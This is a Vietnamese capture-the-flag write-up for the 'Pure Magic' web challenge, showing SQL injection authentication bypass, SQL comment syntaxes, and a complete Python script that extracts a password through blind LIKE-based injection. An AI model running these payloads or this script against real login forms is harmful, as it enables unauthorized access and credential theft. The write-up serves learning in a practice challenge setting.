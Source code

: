 ## Pure Magic ([Link](https://cryptixctf.com/web3))

- Lại là 1 bài sql, tuy nhiên không phải đơn giản như bài đầu nhưng cũng không khó

- OK, bây giờ thử vài payload xem có cái nào hoạt động không

- Sau 1 hồi thử thì mình thấy có payload này hoạt động: `admin' OR '1' = '1'-- -`

- Ký tự `-- -` dùng để *comment* tức là toàn bộ *query* phía sau sẽ trở thành *comment* hết, chúng sẽ không được *server* đọc và thực thi

- 1 vài loại *comment* mình thường dùng:

  - `--`
  - `#`
  - `-- -`
  - `\* *\`

- Vấn đề là khi bypass qua sql của đề thì chả có gì cả ngoài vài dòng *troll*, vậy là *password* không thể dump trực tiếp tự *database*, ít nhất là mình nghĩ là vậy

- Bây giờ mình sử dụng kỹ thuật *blind sql* để dò ra *password* của đề

- Mình sẽ viết 1 *tool* nhỏ đề dò ra *password* của đề, mình sẽ không giải thích *tool*, tuy nhiên mình sẽ nói qua *payload* mình sử dụng để dò *password*

- Payload: `admin' OR BINARY password LIKE 'B%'-- -`

- Đoạn *LIKE 'B%'* dùng để xác thực xem *password* của nó có bắt đầu bằng chữ *B* hay không. Ký tự *%* dùng để đại diện cho tất cả các ký tự tiếp theo. Nếu đúng là bắt đầu bằng chữ *B* thì ta sẽ có 1 mệnh đề đúng. Vậy câu query sẽ hoạt động, *server* tiếp tục xuất ra đoạn troll kia. Nếu sai, thì *server* sẽ hiện thị dòng *Please just stop guessing.* Còn *BINARY* dùng để phân biệt chữ hoa và chữ thường

- Cứ như vậy, nếu đúng ta sẽ thêm ký tự đó vào *listpass* lưu sẵn, sai thì bỏ qua

- Ngoài dùng *LIKE* thì còn rất nhiều hàm khác có thể dùng như *SUBSTRING*, ...

- Còn đây là tool của mình

  ```python
  import requests
  from string import *
  import re, sys
  
  char = ascii_lowercase + ascii_uppercase + digits + '_'
  
  url = 'https://cryptixctf.com/web3/login.php'
  
  listpass = ''
  
  no = []
  
  flag = 0
  
  while True:
  	for x in char:
  
  		print('trying with: ', listpass+x)
  
  		data = {
  			"pwd" : "admin' OR BINARY password LIKE '"+listpass+x+"%'-- -"
  		}
  
  		response = requests.post(url, data = data)
  
  		fin = re.findall('Please just stop guessing.', response.text)
  
  		if fin == no:
  			listpass += x
  			flag = 0
  			break
  		else:
  			flag += 1
  		if flag == 63:
  			print('\n\nSuccess with password: ', listpass)
  			sys.exit()
  
  
  ```
 - Chậc, chạy mãi mới ra flag, máy cùi gh
 
  ![flag](Selection_001.png)

  

